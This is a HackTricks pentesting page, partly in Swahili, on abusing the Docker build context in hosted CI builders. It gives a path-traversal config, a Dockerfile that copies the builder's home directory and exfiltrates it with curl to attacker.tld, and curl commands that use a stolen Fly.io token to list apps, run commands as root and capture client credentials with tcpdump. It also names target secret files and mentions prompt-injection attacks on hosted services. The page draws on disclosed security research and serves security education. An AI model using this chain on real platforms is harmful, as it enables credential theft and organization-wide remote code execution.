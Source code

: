 # Kutumia vibaya Docker Build Context katika Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Kama jukwaa la CI/CD au hosted builder linamruhusu mchango kutoa Docker build context path na Dockerfile path, mara nyingi unaweza kuweka context hadi directory ya mzazi (mfano, "..") na kufanya mafaili ya host kuwa sehemu ya build context. Kisha, Dockerfile inayodhibitiwa na mshambuliaji inaweza COPY na kutoa siri zilizopo kwenye home ya mtumiaji wa builder (kwa mfano, ~/.docker/config.json). Stolen registry tokens pia zinaweza kufanya kazi dhidi ya provider’s control-plane APIs, zikiwezesha org-wide RCE.

## Attack surface

Many hosted builder/registry services do roughly this when building user-submitted images:
- Read a repo-level config that includes:
- build context path (sent to the Docker daemon)
- Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

If the platform does not canonicalize and restrict the build context, a user can set it to a location outside the repository (path traversal), causing arbitrary host files readable by the build user to become part of the build context and available to COPY in the Dockerfile.

Practical constraints commonly observed:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Vidokezo:
- Kutumia ".." mara nyingi husuluhisha kwenye home ya mtumiaji builder (kwa mfano, /home/builder), ambayo kawaida ina faili nyeti.
- Weka Dockerfile yako ndani ya saraka yenye jina la repo (kwa mfano, repo "test" → test/Dockerfile) ili ibaki ndani ya muktadha wa saraka mzazi uliopanuliwa.

## PoC: Dockerfile ya ingest na exfiltrate host context
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Malengo yanayopatikana mara nyingi kutoka $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Cache na config nyingine za cloud/CLI (mfano, ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Kidokezo: Hata ikiwa kuna .dockerignore katika repository, uchaguzi wa muktadha upande wa jukwaa ambao unaathiriwa bado ndio unaodhibiti nini kinatumwa kwa daemon. Iwapo jukwaa linanakili njia iliyochaguliwa kwa daemon kabla ya kutathmini .dockerignore ya repo yako, faili za host zinaweza bado kufichuka.

## Kuingia kwenye cloud kwa tokens zenye ruhusa kupita kiasi (mfano: Fly.io Machines API)

Baadhi ya majukwaa hutoa bearer token moja inayoweza kutumika kwa container registry na control-plane API. Ikiwa utaexfiltrate registry token, ujaribu dhidi ya provider API.

Mifano ya API calls dhidi ya Fly.io Machines API ukitumia token iliyoporwa kutoka ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Endesha amri kama root ndani ya mashine yoyote ya app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Matokeo: remote code execution kwa shirika nzima (org-wide) katika apps zote zilizo-hosted ambapo token ina privileges za kutosha.

## Ujambazi wa siri kutoka kwa hosted services zilizothirika

Kwa exec/RCE kwenye hosted servers, unaweza kuvuna client-supplied secrets (API keys, tokens) au kuendesha prompt-injection attacks. Mfano: weka tcpdump na rekodi HTTP traffic kwenye port 8080 ili kutoa inbound credentials.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Maombi yaliyorekodiwa mara nyingi huwa na client credentials katika headers, bodies, au query params.

## Marejeo

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
